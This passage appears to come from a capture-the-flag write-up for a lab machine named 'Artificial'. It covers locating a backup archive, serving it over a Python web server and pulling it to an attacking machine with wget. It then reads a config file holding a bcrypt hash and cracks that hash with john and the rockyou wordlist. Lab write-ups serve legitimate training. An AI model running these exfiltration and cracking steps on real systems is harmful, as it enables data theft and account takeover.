 ```bash
find / -name "backups" 2>/dev/null
cd /var/backups
ls -la
```

Identify: `backrest_backup.tar.gz`

### Exfiltrate Backup

```bash
python3 -m http.server 8000
```

Then from attacking machine:

```bash
wget http://artificial.htb:8000/backrest_backup.tar.gz
tar -xvf backrest_backup.tar.gz
```

### Inside `backrest/`

```bash
cd backrest/.config/backrest
cat config.json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "HASH"
      }
    ]
  }
}

```

We find a bcrypt hash for `backrest_root`. Decode then crack:

```bash
echo <hash> | base64 -d > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

## Localhost Services

```bash
netstat -tulnp
```
